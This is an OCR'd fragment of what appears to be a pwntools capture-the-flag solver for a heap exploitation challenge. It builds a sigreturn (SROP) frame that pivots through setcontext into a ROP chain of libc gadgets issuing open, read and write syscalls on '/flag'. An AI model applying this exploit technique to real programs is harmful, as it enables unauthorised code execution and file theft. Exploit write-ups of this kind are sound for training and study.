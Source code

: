 ```

            # SROP chain
            frame = SigreturnFrame()
            frame.rdi = heap_address + 0x30A0 + 0x100 + 0x100
            frame.rsi = 0
            frame.rdx = 0x100
            frame.rsp = heap_address + 0x30a0 + 0x100
            frame.rip = libc.address + 0x000000000002535f # : ret
            frame.set_regvalue('&amp;fpstate', heap_address)
            str_frame = str(frame)

            payload = p64(libc.symbols['setcontext'] + 0x1d) + p64(heap_address + 0x30A0) + str_frame[0x10:]

            # ROP chain
            layout = [
                # sys_open("./flag", 0)
                libc.address + 0x0000000000047cf8, #: pop rax; ret; 
                2,
                libc.address + 0x00000000000cf6c5, #: syscall; ret; 
                # sys_read(flag_fd, heap, 0x100)
                libc.address + 0x0000000000026542, #: pop rdi; ret; 
                3, # maybe it is 2
                libc.address + 0x0000000000026f9e, #: pop rsi; ret; 
                heap_address + 0x10000,
                libc.address + 0x000000000012bda6, #: pop rdx; ret; 
                0x100,
                libc.address + 0x0000000000047cf8, #: pop rax; ret; 
                0,
                libc.address + 0x00000000000cf6c5, #: syscall; ret; 
                # sys_write(1, heap, 0x100)
                libc.address + 0x0000000000026542, #: pop rdi; ret; 
                1,
                libc.address + 0x0000000000026f9e, #: pop rsi; ret; 
                heap_address + 0x10000,
                libc.address + 0x000000000012bda6, #: pop rdx; ret; 
                0x100,
                libc.address + 0x0000000000047cf8, #: pop rax; ret; 
                1,
                libc.address + 0x00000000000cf6c5, #: syscall; ret; 
                # exit(0)
                libc.address + 0x0000000000026542, #: pop rdi; ret; 
                0,
                libc.address + 0x0000000000047cf8, #: pop rax; ret; 
                231,
                libc.address + 0x00000000000cf6c5, #: syscall; ret; 
            ]
            payload = payload.ljust(0x100, '') + flat(layout)
            payload = payload.ljust(0x200, '') + '/flag'

            creat(sh, 0x300, payload)

            info(str(hex(libc.symbols['setcontext'] + 0x1d)))
            delete(sh,82)

            flag = sh.recvall(0.3)
            # sh.interactive()
            sh.close()
            return flag
        except EOFError:
            sh.close()
            continue

```
